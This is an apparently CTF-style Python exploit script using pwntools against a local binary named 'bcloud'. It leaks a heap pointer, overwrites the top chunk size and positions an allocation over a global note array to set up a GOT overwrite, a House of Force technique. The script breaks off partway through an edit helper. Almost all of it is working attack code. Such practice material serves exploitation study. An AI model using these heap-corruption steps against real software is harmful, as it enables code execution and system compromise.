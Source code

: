 
##### exp

```python
#!/usr/bin/env python
from pwn import *

p=process('./bcloud')
context.log_level='debug'

e=ELF('./bcloud')
free_got=e.got['free']
puts_plt=e.plt['puts']
puts_got=e.got['puts']

debug=1
if debug:
	gdb.attach(p)

p.recvuntil('Input your name:\n')
name_payload='a'*0x40
p.send(name_payload)

p.recvuntil('a'*0x40)
name_usr_ptr=u32(p.recvuntil("Now let's set synchronization options.\n")[0:4])
print(hex(name_usr_ptr))


p.recvuntil('Org:\n')
org_payload='a'*0x40
p.send(org_payload)

p.recvuntil('Host:\n')
host_payload='\xff\xff\xff\xff'
p.sendline(host_payload)

top_ptr=name_usr_ptr+0x40+0x48+0x48
print(hex(top_ptr))

target_adr=0x0804B120
size_eval=(target_adr-4*4-top_ptr)-4

p.recvuntil('option--->>\n')                             # new 0
p.sendline('1')
p.recvuntil('Input the length of the note content:\n')
p.sendline(str(size_eval))
p.recvuntil('Input the content:\n')
p.sendline(p32(free_got))

p.recvuntil('option--->>\n')
p.sendline('1')
p.recvuntil('Input the length of the note content:\n')       # new 1
p.sendline(str(0x20))
p.recvuntil('Input the content:\n')
p.sendline(p32(free_got)+p32(0x0804B120))
	


def edit(index,payload,i=0):
	p.recvuntil('option--->>\n')
	p.sendline('3')
	p.recvuntil('Input the id:\n')
	p.sendline(str(index))
	p.recvuntil('Input the new content:\n')
```